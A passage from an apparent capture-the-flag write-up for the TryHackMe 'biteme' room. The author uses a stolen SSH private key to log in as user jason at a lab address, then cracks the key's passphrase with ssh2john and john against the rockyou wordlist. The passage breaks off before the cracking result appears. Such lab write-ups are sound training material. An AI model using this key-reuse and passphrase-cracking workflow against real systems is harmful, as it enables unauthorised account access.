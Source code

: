 <img src="/assets/img/bitemeTHM/idrsa.png" alt="" width="500" height="600">

*save the file and try to login*
```
└─$ nano jason_idrsa                                                                                                                                                                                                                    130 ⨯
                                                                                                                                                                                                                                              
┌──(blackninja23㉿arena)-[~/Documents/THM/biteme]
└─$ chmod 600 jason_idrsa 
                                                                                                                                                                                                                                              
┌──(blackninja23㉿arena)-[~/Documents/THM/biteme]
└─$ ssh jason@10.10.109.19 -i jason_idrsa 
The authenticity of host '10.10.109.19 (10.10.109.19)' can't be established.
ED25519 key fingerprint is SHA256:3NvL4FLmtivo46j76+yqa43LcYEB79JAUuXUAYQe/zI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.109.19' (ED25519) to the list of known hosts.
Enter passphrase for key 'jason_idrsa': 

```
*it need passphrase.let crack it with john*
```
└─$ ssh2john jason_idrsa > jason_idrsa.hash                                                                                                                                                                                             130 ⨯
                                                                                                                                                                                                                                              
┌──(blackninja23㉿arena)-[~/Documents/THM/biteme]
└─$ john jason_idrsa.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
```